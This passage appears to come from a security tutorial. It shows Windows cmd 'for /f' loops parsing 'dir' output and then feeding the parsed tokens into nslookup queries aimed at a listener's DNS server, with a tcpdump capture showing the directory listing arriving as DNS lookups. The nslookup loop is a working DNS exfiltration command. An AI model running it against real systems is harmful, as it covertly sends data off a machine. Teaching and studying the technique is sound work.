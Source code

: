 
That output matches nicely with the red box in the image above. I can get `%c`
to get the pink:

    
    
    C:\Users\0xdf\test>@echo off & (for /f "tokens=1-26" %a in ('dir') DO echo %c) & @echo on
    drive
    Number
    C:\Users\0xdf\test
    AM
    AM
    0
    4,917,178,368
    

I can also combine tokes as I see fit (a silly example):

    
    
    C:\Users\0xdf\test>@echo off & (for /f "tokens=1-26" %a in ('dir') DO echo %c-%b___%a) & @echo on
    drive-in___Volume
    Number-Serial___Volume
    C:\Users\0xdf\test-of___Directory
    AM-07:04___02/25/2019
    AM-07:04___02/25/2019
    0-File(s)___0
    4,917,182,464-Dir(s)___2
    

### nslookup Basics

Now I’ll use what I know about looping to generate `nsloopup` commands. If I
start with this loop:

    
    
    C:\Users\0xdf\test> for /f "tokens=1-26" %a in ('dir') DO (nslookup %a.%b.%c. 10.1.1.41)
    

Here’s what I see in `tcpdump`:

    
    
    root@kali# tcpdump -ni eth0 udp port 53
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
    11:35:55.294278 IP 10.1.1.153.56258 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:55.296505 IP 10.1.1.153.56259 > 10.1.1.41.53: 2+ A? Volume.in.drive. (33)
    11:35:55.296723 IP 10.1.1.153.56260 > 10.1.1.41.53: 3+ AAAA? Volume.in.drive. (33)
    11:35:55.318089 IP 10.1.1.153.56261 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:55.319970 IP 10.1.1.153.56262 > 10.1.1.41.53: 2+ A? Volume.Serial.Number. (38)
    11:35:55.320227 IP 10.1.1.153.56263 > 10.1.1.41.53: 3+ AAAA? Volume.Serial.Number. (38)
    11:35:55.339339 IP 10.1.1.153.56264 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:57.338883 IP 10.1.1.153.56265 > 10.1.1.41.53: 2+ A? Directory.of.C:Users0xdftest. (46)
    11:35:57.339221 IP 10.1.1.153.56266 > 10.1.1.41.53: 3+ AAAA? Directory.of.C:Users0xdftest. (46)
    11:35:57.364436 IP 10.1.1.153.56267 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:35:59.364047 IP 10.1.1.153.56268 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:35:59.365326 IP 10.1.1.153.56269 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
    11:35:59.423620 IP 10.1.1.153.56270 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:01.426274 IP 10.1.1.153.56271 > 10.1.1.41.53: 2+ A? 02/25/2019.07:04.AM. (37)
    11:36:01.427472 IP 10.1.1.153.56272 > 10.1.1.41.53: 3+ AAAA? 02/25/2019.07:04.AM. (37)
    11:36:01.476957 IP 10.1.1.153.56273 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:03.487602 IP 10.1.1.153.56274 > 10.1.1.41.53: 2+ A? 0.File(s).0. (29)
    11:36:03.489038 IP 10.1.1.153.56275 > 10.1.1.41.53: 3+ AAAA? 0.File(s).0. (29)
    11:36:03.537786 IP 10.1.1.153.56276 > 10.1.1.41.53: 1+ PTR? 41.1.1.10.in-addr.arpa. (40)
    11:36:05.527818 IP 10.1.1.153.56277 > 10.1.1.41.53: 2+ A? 2.Dir(s).4,917,108,736. (40)
    11:36:05.528172 IP 10.1.1.153.56278 > 10.1.1.41.53: 3+ AAAA? 2.Dir(s).4,917,108,736. (40)
    